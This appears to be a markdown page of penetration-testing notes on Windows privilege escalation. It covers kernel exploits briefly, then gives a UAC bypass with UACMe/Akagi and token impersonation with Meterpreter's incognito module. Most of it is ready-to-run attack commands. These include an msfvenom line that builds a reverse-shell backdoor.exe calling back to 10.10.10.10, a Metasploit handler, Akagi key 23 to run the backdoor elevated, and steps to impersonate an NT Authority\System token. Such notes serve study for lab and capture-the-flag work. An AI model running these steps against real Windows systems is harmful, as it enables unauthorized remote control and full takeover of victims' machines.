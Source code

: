 
<h3>Windows Kernel Exploit</h3>

Windows Kernel is the kernel that comes pre-packaged with all versions of microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy

Look for windows boxes that has the kernel exploit vuln(**Devel**)

one of the basic command to escalate priv esc on a windows is ```getsystem```, this would go through a plethora of techniques, but it can also fail actually


>Check out the  Devel Box Writeup, it's more of kernel exploit stuff.

[Link](https://github.com/BlackAnon22/BlackAnon22.github.io/blob/main/posts/hackthebox/devel.md) to Devel Writeup



<h4>Bypassing UAC with UACMe</h4>

UAC(User Account Control), has been present in all of windows from windows vista to windows 11. 

This is to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrator group

UACMe is an open source tool that can be used to bypass Windows UAC by leveraging various techniques

You can get it [here](https://github.com/hfiref0x/UACME)

To search for a running process
```
pgrep explorer
```
To migrate to that process, this provides a 64 bit meterpreter session
```
migrate 2223
```
To check if the user has elevated privileges
```
getprivs
```
To check users
```
net user
```
To check if the users are in the local administrators group
```
net localgroup administrators
```

>The version of Akagi you'll use depends on the version of windows you are running

To run akagi

Create a backdoor.exe using msfvenom
```
msfvenom -f exe -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -o backdoor.exe
```
Then set up the multi handler on metasploit
```
use exploit/multi/handler
set LHOST
set LPORT
run
```

Now, on the previous meterpreter shell you got, create a TEMP directory and upload the 2 files
```
upload backdoor.exe
upload Akagi64.exe
```
Making use of key "23", which essentially takes advantage of package manager on windows
```
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```
Running this bypasses UAC, then backdoor.exe should be executed with admin privileges
`
You should get a metterpreter shell, checking the privileges again
```
getprivs
```
You'll see the user has elevated privileges
Listing out processes
```
ps
```
With this you can migrate to a process with "NT Authority\System"
```
migrate PID
```
With this you would get a meterpreter shell as "NT Authority System"


>For windows 10, you can use key 33. Check out the documentation of the tool to read more about it

>In order to elevate privileges by bypassing uac, you will need access to a user that is a member of the local administrators group




<h4>Access Token Impersonation</h4>

>SeAssignPrimaryToken: This allows  a user to impersonate tokens

>SeCreateToken: This allows a user to create an arbitrary token with administrative privileges

>SeImpersonatePrivilege: This allows a user to create a process under the security context of another user typically with administrative privileges

Using the "Incognito Module", this is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens successfully after exploitation. We can use this to display a list of token we can impersonate


To migrate to a 64bit meterpreter after getting your meterpreter session, you can migrate to explorer
```
pgrep explorer
migrate 2222
```
if "SeImpersonatePrivilege" is present, you can load incognito module on your meterpreter
```
load incognito
```
To list tokens, (you should see delegation tokens and impersonation tokens)
```
list_tokens -u
```
To impersonate token
```
impersonate_token "name of the token"
```
to check if it worked
```
getuid
```
So you can check the tokens again
```
list_tokens -u
```
If there's one for "NT Authority System", you can go ahead and impersonate it
```
impersonate_token "name of the token"
```

>If there's ever a scenario where the delegation or impersonation token isn't available, then you can go ahead with the potato attack

